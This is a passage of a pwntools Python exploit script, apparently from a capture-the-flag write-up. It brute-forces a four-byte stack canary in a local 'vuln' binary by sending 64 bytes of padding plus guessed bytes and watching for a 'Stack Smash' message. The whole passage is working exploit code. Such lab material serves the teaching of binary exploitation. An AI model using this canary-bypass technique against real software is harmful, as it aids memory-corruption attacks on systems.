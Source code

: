 ```py
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'error'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# from buffer to stack canary
pad1 = 64

# The stored values from the leaked canary
canary = ['A', 'A', 'A', 'A']

# loop through all 4 entries of the canary
for i in range(4):
    # loop through all possible bytes for each entry
    for c in range(255):
        p = start();
        p.recv()
        p.sendline(b"-1");
        p.recv()

        payload = b"A" * pad1 # initial padding
        payload += "".join(canary[0:i]).encode() # the canary we've leaked so far
        payload += chr(c).encode() # the new character to try
        print(payload)
        p.send(payload)
        recv = p.recv()
        p.close()

        # Check the output
        if b'Stack Smash' not in recv:
            canary[i] = chr(c) # add the found value
            break

print("".join(canary))
```